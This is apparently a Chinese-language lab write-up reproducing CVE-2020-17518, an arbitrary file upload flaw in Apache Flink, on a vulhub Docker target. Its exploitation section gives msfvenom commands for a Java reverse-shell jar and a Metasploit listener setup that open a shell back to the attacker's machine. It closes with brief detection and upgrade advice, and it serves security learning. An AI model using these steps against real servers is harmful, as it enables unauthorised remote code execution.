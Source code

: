 ```yaml
---
title: 【CVE-2020-17518】Apache Flink任意文件上传漏洞复现
date: 2025-10-14
categories:
  - 渗透测试
  - 红队
image: images/94.webp
---
```

# 0x00 漏洞描述
Apache [Flink](https://so.csdn.net/so/search?q=Flink&spm=1001.2101.3001.7020) 是由Apache软件基金会开发的开源流处理框架，其核心是用Java和Scala编写的分布式流数据流引擎。Flink以数据并行和流水线方式执行任意流数据程序，Flink的流水线运行时系统可以执行批处理和流处理程序。
编号：CVE-2020-17518
Flink 1.5.1引入了REST API，但其实现上存在多处缺陷，导致目录遍历和任意文件写入漏洞。
# 0x01 影响范围
Apache Flink 1.5.1 ~ 1.11.2
# 0x02 环境搭建
启动vulhub_kali_linux
进入vulhub靶场已经给CVE-2020-17518搭建好的环境
```
cd vulhub/flink/CVE-2020-17518
```
使用docker启动flink环境
```
docker-compose up -d
```
环境启动后,本机访问
```
http://192.168.197.137:8081
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014162842.png)
# 0x03 漏洞复现
上传任意文件,进行bp抓包
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014162952.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014163008.png)
在filename字段值修改为jar后缀名 ,发送请求,回显的状态码200以及参数说明上传成功
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014163049.png)
回显的信息发现上传文件的位置:
```
/tmp/flink-web-fc404e92-f1db-4258-923e-10f2199225eb/flink-web-upload/
```
# 0x04 漏洞利用
使用kali的msfvenom工具,生成文件的目录自定义
lhost为kali_linux的IP地址   lport为kali_linux的端口  >后面为文件路径以及文件名
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.197.129 lport=1314 -f jar >/home/slimer/桌面/2.jar
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014164618.png)
启动msf监听
```java
msfconsole
# 设置监听模块
use exploit/multi/handler
# 设置 payload
set payload java/shell_reverse_tcp
# 设置监听 IP 地址
set lhost 192.168.197.129
# 设置监听端口
set lport 1314
# 执行
run
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014165222.png)
上传`2.jar`文件
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014165011.png)
成功监听：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251014164932.png)
# 0x05 漏洞检测
可以通过分析apache日志来检测攻击。
# 0x06 漏洞修复
```
官方已发布安全版本，请及时下载升级至安全版本。
https://flink.apache.org/zh/downloads.html
```